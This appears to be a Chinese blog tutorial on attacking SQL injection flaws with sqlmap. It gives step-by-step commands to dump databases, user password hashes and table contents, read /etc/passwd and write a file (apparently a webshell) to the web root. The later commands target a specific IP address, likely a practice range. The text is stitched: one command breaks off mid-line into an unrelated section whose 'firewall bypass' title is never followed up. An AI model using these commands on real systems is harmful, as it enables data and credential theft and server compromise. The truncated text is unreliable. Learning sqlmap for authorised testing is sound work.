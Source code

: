 简单的注入流程 :
1.读取数据库版本，当前用户，当前数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1 
2.判断当前数据库用户权限 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U 用户名 -v 1 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U 用户名 -v 1 
3.读取所有数据库用户或指定数据库用户的密码 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2 
4.获取所有数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2 
5.获取指定数据库中的所有表 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2 
6.获取指定数据库名中指定表的字段 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2 
7.获取指定数据库名中指定表中指定字段的数据 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2 
8.file-read读取web文件 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2 
9.file-write写入文件到web 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file使用sqlmap绕过防火墙进行注入测试：
执行：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --privileges
这种比较难判断是不是管理员权限。

判断是否为最高权限：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --is-dba
这种判断是不是最高权限最好的方法。

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132515645-143840635.png)

爆库(获取所有的数据库)：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --dbs

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132515432-200492664.png)

获取当前数据库：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --current-db

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132515382-1821991635.png)

获取指定的数据库的表：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --tables -D "SYSTEM"

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132515635-1582334469.png)

获取指定数据库下表名的字段：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --columns -T "NOTICE"  -D "SYSTEM"

![](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132515902-677696613.png)

获取数据：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --dump -C    "列名" -T "表名"
如果出现不同数据库相同的网站，那么就会有缓存，清除缓存：python310 sqlmap.py -u "http://219.153.49.228:40042/new_list.php?id=1" --purge
